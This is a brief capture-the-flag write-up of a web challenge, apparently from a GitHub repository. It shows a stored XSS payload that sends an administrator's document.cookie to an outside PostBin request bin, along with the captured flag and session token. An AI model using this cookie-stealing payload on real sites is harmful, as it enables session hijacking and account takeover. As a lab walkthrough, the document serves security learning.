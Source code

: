 ![](./images/logo.png)

We're initially provided with a simple webpage

![](./images/start.jpg)

Functionality is provided that allows us to create a post. When submitting we are provided with this prompt:

```
Your post was submitted for review. Administator will take a look shortly. 
```

This leads me to believe that we're going to have to execute an attack to steal cookies from an administrator.

Lets see if the `admin` clicks on our links. For this I will be using [PostBin](https://postb.in)

Submitting just a link results in no direct access to our request bin. We're going to have to try a different technique.


The other way to attempt this is to submit a XSS (Cross Site Scripting) attack that will automatically redirect the victim.

This can be achieved with the code:
```html
<script>
    location.href="<URL>"
</script>
```

This will automatically redirect the victim to the URL of our choice.

Putting this together with out request bin we get the final payload;

```html
<script>
    location.href = 'https://postb.in/1561291979505-8530671542976?cookie='+document.cookie;
</script>
```

When entered we get the `cookie` values from the admin!

```
cookie: 
    flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; 
    session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV
```

FLAG:
```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```